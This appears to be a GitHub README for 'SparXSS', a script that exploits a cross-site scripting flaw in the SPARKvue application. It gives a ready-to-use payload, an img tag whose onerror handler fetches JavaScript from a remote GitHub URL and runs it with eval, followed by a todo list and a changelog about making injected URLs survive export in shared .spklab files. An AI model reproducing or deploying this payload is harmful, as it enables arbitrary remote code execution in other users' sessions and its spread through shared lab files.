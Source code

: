 ## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:<br>```<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r => r.text()).then(c => eval(c))'>```

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

## ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)

## Changelog

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far
